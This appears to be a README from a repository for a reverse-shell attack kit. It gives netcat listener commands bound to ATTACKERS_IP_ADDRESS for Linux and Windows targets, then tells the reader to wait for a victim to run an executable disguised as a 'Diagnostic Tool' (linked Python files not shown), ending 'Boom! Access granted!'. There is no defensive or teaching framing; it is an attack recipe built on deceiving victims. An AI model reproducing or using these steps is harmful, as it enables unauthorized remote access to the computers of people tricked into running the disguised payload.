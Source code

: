 # Gain access to victim's computer with reverse shell

1. On attacker's computer (Linux with netcat installed), run the following if
    - victim is using linux
    ```bash
    sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```

    - victim is using Windows
    ```bash
    stty raw -echo; (stty size; cat) | nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```

2. Wait for the victim to run the 'Diagnostic Tool' executable file: [Linux](victim_linux.py) or [Windows](victim_windows.py)

3. Boom! Access granted!
